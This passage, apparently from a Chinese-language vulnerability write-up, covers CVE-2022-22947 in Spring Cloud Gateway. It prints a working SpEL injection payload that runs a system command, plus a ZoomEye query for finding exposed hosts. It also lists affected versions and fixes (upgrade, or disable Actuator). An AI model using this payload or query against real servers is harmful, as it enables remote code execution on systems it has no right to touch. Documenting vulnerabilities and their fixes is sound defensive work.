 ## payload分析

```
#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}
```

## 源码

`ConfigurationService`类

![image-20230420202539716](https://img.gyxnb.top/img/image-20230420202539716.png)

## 源码

`ShortcutConfigurable`类

![image-20230420202609612](https://img.gyxnb.top/img/image-20230420202609612.png)

# 4、扫描与修复

## 影响范围

- Spring Cloud Gateway < 3.1.1 
- Spring Cloud Gateway < 3.0.7 

https://tanzu.vmware.com/security/cve-2022-22947

Pivotal

## zoomeye

```
app="vmware-SpringBoot-framework"
```

## 批量检测

`scan.py`

## 修复

### 1.更新升级 Spring Cloud Gateway 到以下安全版本： 

- Spring Cloud Gateway >=3.1.1 
- Spring Cloud Gateway >=3.0.7 

### 2.或在不考虑影响业务的情况下禁用 Actuator 接口 

```
management.endpoint.gateway.enable:false
```

